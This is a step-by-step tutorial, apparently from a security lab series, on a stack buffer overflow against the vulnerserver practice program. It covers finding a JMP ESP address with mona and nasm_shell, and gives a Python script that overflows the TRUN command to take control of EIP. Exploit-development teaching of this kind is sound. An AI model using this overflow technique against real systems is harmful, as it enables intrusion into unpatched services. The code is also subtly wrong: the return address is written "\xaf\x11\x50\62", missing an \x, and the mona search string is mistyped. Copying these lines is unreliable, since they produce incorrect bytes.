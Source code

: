 What we are saying in finding the right module is that we are looking for a DLL or something similar inside of a program that has no memory protection.

### Practicals

- On your windows machine go to your browser and download this [file](https://github.com/corelan/mona/blob/master/mona.py)
- Copy the file to this location `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands` and save it
- Now open immunity debugger and attach vulnserver
- On the little command bar down immunity debugger type in `!mona modules` and you should a pop-up with green text over dark screen

![](https://i.imgur.com/9Iohr5p.png)

![](https://i.imgur.com/19zh7e6.png)

- What we are looking for are rows with the `False` statement all through and `.dll` (keep this information for now)

![](https://i.imgur.com/QR7wUnD.png)

- The next thing to do is to find the **hex code equivalent of a jump** , to do this:
	- Goto your kali terminal and locate `nasm_shell.rb`
	- Copy the output and paste on your terminal, then click enter

![](https://i.imgur.com/pzDMUSn.png)

- What we are trying to do is convert assembly language into hex code, type in `JMP ESP` on your terminal which is a jump command

![](https://i.imgur.com/gatZgbH.png)

So the hex code equivalent of `JMP ESP` is `FFE4` 

- We will go back to our immunity debugger and type in this command `!mona find -s "x\ff\e4" -m essfunc.dll` , make sure there is a "\x" followed by two pairs of hex in other to separate the hex in `"\xff\xe4"` and also the major reason why we are using **essfunc.dll** is because that is the program that has the False statement all through in a row , Now click enter

![](https://i.imgur.com/2iJD21A.png)

The highlighted box result is what we are more interested in, so go back to your terminal and exit the nasm_shell.rb  , Now copy this python code and save it

```python
#!/usr/bin/python
 
import sys, socket

# 625011af

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "\xaf\x11\x50\62"

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

- First of all if you notice in this script we have a standalone hex which is `625011af` gotten from the first result in the highlighted box we mentioned earlier (commented it cos it is not necessary, just for explanatory purposes ) and as you can see down the image below `0x` was stripped off
![](https://i.imgur.com/KvpK6R7.png)

- then the line `shellcode = "A" * 2003 + "\xaf\x11\x50\62"` in which A is sent 2003 times with the TRUN command and the `"\xaf\x11\x50\62"` is still the number we had but starting from the back with \x (because of some x86 architecture) 

Now navigate back to immunity debugger and minimize the tab and maximize it back to clear the command output center

![](https://i.imgur.com/87DKyzx.png)


Click on the blackish right arrow on the tools bar and you should see an enter expression tab, then enter our jump code which is `625011af` then click "OK"

![](https://i.imgur.com/lDMN3pM.png)

Check the first square tab and you should see the hex code we saw using nasm

![](https://i.imgur.com/grMUgTO.png)

The next thing to do us to set up a break point, just click on the line and press "f2" on your keyboard and the `625011af` should be highlighted with light blue

![](https://i.imgur.com/6AhzmLs.png)

Click the run button on immunity debugger and execute the python script we talked about earlier and we should see that we have affected the `EIP` changing it to "625011af"


